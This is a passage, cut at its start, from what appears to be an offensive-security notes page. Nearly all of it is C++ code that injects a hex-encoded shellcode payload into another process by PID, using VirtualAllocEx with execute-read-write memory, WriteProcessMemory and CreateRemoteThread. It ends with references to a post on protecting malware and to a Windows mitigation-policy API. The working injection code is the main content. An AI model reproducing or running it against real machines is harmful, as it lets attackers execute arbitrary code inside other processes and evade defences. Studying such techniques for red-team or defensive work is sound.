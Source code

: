 ```cpp
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
}

```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://blog.xpnsec.com/protecting-your-malware/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setprocessmitigationpolicy" %}

